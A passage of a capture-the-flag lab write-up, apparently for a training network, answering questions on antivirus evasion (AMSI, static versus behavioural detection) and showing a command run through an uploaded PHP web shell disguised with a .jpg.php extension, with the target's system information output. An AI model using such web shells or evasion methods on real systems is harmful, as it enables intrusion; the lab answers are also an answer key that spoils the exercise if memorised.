 ## Task 37 - Personal PC Exploit PoC

Has no questions that requires an answer.

## Task 38 - AV Evasion Introduction

**Which category of evasion covers uploading a file to the storage on the target before executing it?**

On-Disk evasion

**What does AMSI stand for?**

Anti-Malware Scan Interface

**Which category of evasion does AMSI affect?**

In-Memory evasion

## Task 39 - AV Evasion AV Detection Methods

**What other name can be used for Dynamic/Heuristic detection methods?**

Behavioural

**If AV software splits a program into small chunks and hashes them, checking the results against a database, is this a static or dynamic analysis method?**

static

**When dynamically analysing a suspicious file using a line-by-line analysis of the program, what would antivirus software check against to see if the behaviour is malicious?**

pre-defined rules

**What could be added to a file to ensure that only a user can open it (preventing AV from executing the payload)?**

password

## Task 40 - AV Evasion PHP Payload Obfuscation

**What is the Host Name of the target?**

WREATH-PC

```
http://10.200.188.100/resources/uploads/v2.jpg.php?wreath=systeminfo
```
```
Host Name:                 WREATH-PC
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-70000-00000-AA411
Original Install Date:     08/11/2020, 14:55:50
System Boot Time:          12/04/2021, 14:51:58
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2394 Mhz
BIOS Version:              Xen 4.2.amazon, 24/08/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
```